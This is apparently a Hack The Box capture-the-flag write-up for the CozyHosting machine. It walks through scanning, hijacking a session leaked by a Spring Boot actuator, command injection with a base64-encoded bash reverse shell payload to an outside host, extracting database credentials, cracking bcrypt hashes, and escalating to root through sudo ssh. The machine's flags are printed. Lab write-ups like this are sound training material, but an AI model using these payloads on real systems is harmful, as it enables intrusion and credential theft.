*Nmap scan*:

```shell
$ cat nmap_allports.txt         
# Nmap 7.94SVN scan initiated Tue Jan 23 09:14:35 2024 as: nmap -p- -v -o nmap_allports.txt 10.10.11.230
Nmap scan report for 10.10.11.230
Host is up (0.073s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

```shell
Nmap scan report for 10.10.11.230
Host is up (0.035s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
|_  256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Nmap, regarding port 80, found a redirect to "hxxp://cozyhosting.htb". Add this domain to *hosts* file.


After many hours, i am stuck. Read an hint from HTB Forum.


```shell
$ dirsearch -u http://cozyhosting.htb/
[...]
Target: http://cozyhosting.htb/

[17:41:57] Starting: 
[17:42:04] 200 -    0B  - /;/json                                           
[17:42:04] 200 -    0B  - /;/login
[17:42:04] 200 -    0B  - /;json/
[17:42:04] 200 -    0B  - /;admin/
[17:42:04] 400 -  435B  - /\..\..\..\..\..\..\..\..\..\etc\passwd
[17:42:04] 200 -    0B  - /;/admin                                          
[17:42:04] 200 -    0B  - /;login/
[17:42:05] 400 -  435B  - /a%5c.aspx                                        
[17:42:06] 200 -    0B  - /actuator/;/auditLog                              
[17:42:06] 200 -    0B  - /actuator/;/beans                                 
[17:42:06] 200 -    0B  - /actuator/;/configprops                           
[17:42:06] 200 -  634B  - /actuator
[17:42:06] 200 -    0B  - /actuator/;/caches
[17:42:06] 200 -    0B  - /actuator/;/auditevents
[17:42:06] 200 -    0B  - /actuator/;/dump
[17:42:06] 200 -    0B  - /actuator/;/configurationMetadata
[17:42:06] 200 -    0B  - /actuator/;/conditions
[17:42:06] 200 -    0B  - /actuator/;/env
[17:42:06] 200 -    0B  - /actuator/;/events
[17:42:06] 200 -    0B  - /actuator/;/exportRegisteredServices
[17:42:06] 200 -    0B  - /actuator/;/flyway
[17:42:06] 200 -    0B  - /actuator/;/healthcheck
[17:42:06] 200 -    0B  - /actuator/;/heapdump
[17:42:06] 200 -    0B  - /actuator/;/features
[17:42:06] 200 -    0B  - /actuator/;/health
[17:42:06] 200 -    0B  - /actuator/;/info
[17:42:06] 200 -    0B  - /actuator/;/httptrace
[17:42:06] 200 -    0B  - /actuator/;/liquibase
[17:42:06] 200 -    0B  - /actuator/;/prometheus
[17:42:06] 200 -    0B  - /actuator/;/jolokia
[17:42:06] 200 -    0B  - /actuator/;/mappings
[17:42:06] 200 -    0B  - /actuator/;/metrics
[17:42:06] 200 -    0B  - /actuator/;/integrationgraph
[17:42:06] 200 -    0B  - /actuator/;/loggingConfig
[17:42:06] 200 -    0B  - /actuator/;/registeredServices
[17:42:06] 200 -    0B  - /actuator/;/releaseAttributes
[17:42:06] 200 -    0B  - /actuator/;/refresh
[17:42:06] 200 -    0B  - /actuator/;/sessions
[17:42:06] 200 -    0B  - /actuator/;/scheduledtasks
[17:42:06] 200 -    0B  - /actuator/;/logfile
[17:42:06] 200 -    0B  - /actuator/;/springWebflow
[17:42:06] 200 -    0B  - /actuator/;/resolveAttributes
[17:42:06] 200 -    0B  - /actuator/;/loggers
[17:42:06] 200 -    0B  - /actuator/;/statistics
[17:42:06] 200 -    0B  - /actuator/;/trace
[17:42:06] 200 -    0B  - /actuator/;/ssoSessions
[17:42:06] 200 -    0B  - /actuator/;/threaddump
[17:42:06] 200 -    0B  - /actuator/;/shutdown
[17:42:06] 200 -    0B  - /actuator/;/sso                                   
[17:42:06] 200 -    0B  - /actuator/;/status
[17:42:06] 200 -   15B  - /actuator/health                                  
[17:42:06] 200 -    5KB - /actuator/env                                     
[17:42:06] 200 -   10KB - /actuator/mappings                                
[17:42:06] 200 -   48B  - /actuator/sessions                                
[17:42:06] 200 -  124KB - /actuator/beans                                   
[17:42:06] 401 -   97B  - /admin                                            
[17:42:07] 200 -    0B  - /admin/%3bindex/                                  
[17:42:08] 200 -    0B  - /Admin;/                                          
[17:42:08] 200 -    0B  - /admin;/                                          
[17:42:16] 200 -    0B  - /axis//happyaxis.jsp                              
[17:42:16] 200 -    0B  - /axis2//axis2-web/HappyAxis.jsp
[17:42:16] 200 -    0B  - /axis2-web//HappyAxis.jsp                         
[17:42:20] 200 -    0B  - /Citrix//AccessPlatform/auth/clientscripts/cookies.js
[17:42:27] 200 -    0B  - /engine/classes/swfupload//swfupload.swf          
[17:42:27] 200 -    0B  - /engine/classes/swfupload//swfupload_f9.swf
[17:42:27] 500 -   73B  - /error                                            
[17:42:27] 200 -    0B  - /examples/jsp/%252e%252e/%252e%252e/manager/html/ 
[17:42:28] 200 -    0B  - /extjs/resources//charts.swf                      
[17:42:31] 200 -    0B  - /html/js/misc/swfupload//swfupload.swf            
[17:42:34] 200 -    0B  - /jkstatus;                                        
[17:42:36] 200 -    4KB - /login                                            
[17:42:36] 200 -    0B  - /login.wdm%2e                                     
[17:42:37] 204 -    0B  - /logout                                           
                                                                             
Task Completed
```

Found a strange path: "/actuator". This path can be also founded with "spring-boot.txt" and "quickhits.txt" wordlist from *seclists*.

From "/actuator", json data is returned.



```json
{
  "_links": {
    "self": {
      "href": "http://localhost:8080/actuator",
      "templated": false
    },
    "sessions": {
      "href": "http://localhost:8080/actuator/sessions",
      "templated": false
    },
    "beans": {
      "href": "http://localhost:8080/actuator/beans",
      "templated": false
    },
    "health-path": {
      "href": "http://localhost:8080/actuator/health/{*path}",
      "templated": true
    },
    "health": {
      "href": "http://localhost:8080/actuator/health",
      "templated": false
    },
    "env": {
      "href": "http://localhost:8080/actuator/env",
      "templated": false
    },
    "env-toMatch": {
      "href": "http://localhost:8080/actuator/env/{toMatch}",
      "templated": true
    },
    "mappings": {
      "href": "http://localhost:8080/actuator/mappings",
      "templated": false
    }
  }
}
```

With "/actuator/sessions" a json is returned. Specifically, the key "F947AF7A0CA6B8ED1E7F2337CA77A065" is associated with the value "kanderson".



The webapp presents a "/admin" endpoint.

```shell
$ gobuster dir -u $URL -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt
[...]
/admin                (Status: 401) [Size: 97]
/login                (Status: 200) [Size: 4431]
/index                (Status: 200) [Size: 12706]
/logout               (Status: 204) [Size: 0]
/error                (Status: 500) [Size: 73]
```

Using "F947AF7A0CA6B8ED1E7F2337CA77A065" as the cookie value and visiting the "/admin" page, results in being logged into the application.



There is a feature in the admin user's dashboard that allows commands to be executed via SSH.



This functionality seems vulnerable to command injection.



By playing with command injection, progress is made until a reverse shell is obtained.

*payload*: `host=cozyhosting.htb&username=($whoami$IFSls)root`



*payload*: `host=cozyhosting.htb&username=asd||ssh`



Finally, a reverse shell is obtained.

*payload*: `host=cozyhosting.htb&username=asd||{echo,YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC4yNy84MCAwPiYx}|{base64,-d}|bash;id`

```http
POST /executessh HTTP/1.1
Host: cozyhosting.htb
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Origin: http://cozyhosting.htb
Referer: http://cozyhosting.htb/admin
Cookie: JSESSIONID=05FA4B05BE2E1F2D350EC8DE97779E7A
Upgrade-Insecure-Requests: 1

host=cozyhosting.htb&username=asd||{echo,YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC4yNy84MCAwPiYx}|{base64,-d}|bash;id
```



Obtained a shell with "app" user. Such a user is unable to read the *local flag*. A number of intermediate users are identified from the *passwd* file.

```shell
app@cozyhosting:/app$ cat /etc/passwd | grep -i bash
cat /etc/passwd | grep -i bash
root:x:0:0:root:/root:/bin/bash
postgres:x:114:120:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
josh:x:1003:1003::/home/josh:/usr/bin/bash
```

In the "/app" folder is the file "cloudhosting-0.0.1.jar" which represents the webapp on port 80.

```shell
app@cozyhosting:/app$ pwd
/app
app@cozyhosting:/app$ ls -la
total 58856
drwxr-xr-x  2 root root     4096 Aug 14 14:11 .
drwxr-xr-x 19 root root     4096 Aug 14 14:11 ..
-rw-r--r--  1 root root 60259688 Aug 11 00:45 cloudhosting-0.0.1.jar
```

It downloaded offline the JAR file for in-depth analysis. "jd-gui" was used to decompile the JAR file. From the analysis, it was possible to extract the "application.properties" file that contains the values of the environment variables used by the webapp. The credentials to access the Postgre database used were identified:
- `spring.jpa.database=POSTGRESQL`
- `spring.datasource.platform=postgres`
- `spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting`
- `spring.datasource.username=postgres`
- `spring.datasource.password=Vg&nvzAQ7XxR`



A Postgres database is only listening on localhost on its default port.

```shell
app@cozyhosting:/app$ ss -ntlp
State  Recv-Q Send-Q      Local Address:Port Peer Address:PortProcess                            
LISTEN 0      511               0.0.0.0:80        0.0.0.0:*                                      
LISTEN 0      5                 0.0.0.0:8081      0.0.0.0:*    users:(("python3",pid=20197,fd=3))
LISTEN 0      4096        127.0.0.53%lo:53        0.0.0.0:*                                      
LISTEN 0      128               0.0.0.0:22        0.0.0.0:*                                      
LISTEN 0      244             127.0.0.1:5432      0.0.0.0:*                                      
LISTEN 0      100    [::ffff:127.0.0.1]:8080            *:*    users:(("java",pid=1062,fd=19))   
LISTEN 0      128                  [::]:22           [::]:*
```

Credentials are used to access the database.



The database is enumerated.

```shell
postgres-# SELECT datname FROM pg_database;
   datname   
-------------
 postgres
 cozyhosting
 template1
 template0
(4 rows)
```

```shell
postgres-# \c cozyhosting
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
You are now connected to database "cozyhosting" as user "postgres".

cozyhosting-# \dt
List of relations
 Schema | Name  | Type  |  Owner   
--------+-------+-------+----------
 public | hosts | table | postgres
 public | users | table | postgres

cozyhosting-# \d users
Table "public.users"
  Column  |          Type          | Collation | Nullable | Default 
----------+------------------------+-----------+----------+---------
 name     | character varying(50)  |           | not null | 
 password | character varying(100) |           | not null | 
 role     | role                   |           |          | 
Indexes:
    "users_pkey" PRIMARY KEY, btree (name)
Referenced by:
    TABLE "hosts" CONSTRAINT "hosts_username_fkey" FOREIGN KEY (username) REFERENCES users(name)

cozyhosting=# SELECT name,password,role FROM users;
name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
```

Two users are identified in the users table with relative password hashes:
- kanderson, "`$2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim`"
- admin, "`$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm`"

The hashes are saved in a file and JohnTheRipper is used for cracking.

```shell
$ cat hash.txt                                                      
$2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
[...]
manchesterunited (?)
```



JtT was able to crack one of the two hashes, specifically that of the user "admin" and his password is "manchesterunited". Using that password for user "josh" gained access in SSH.



***local.txt***: 3013ad8a21093cc5ba6703247ab0fb79



The privilege escalation phase in root is super easy.

```shell
josh@cozyhosting:~$ sudo -l
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```



***root.txt***: 2bdeae14451fbef0b637d8a68c2c47b6

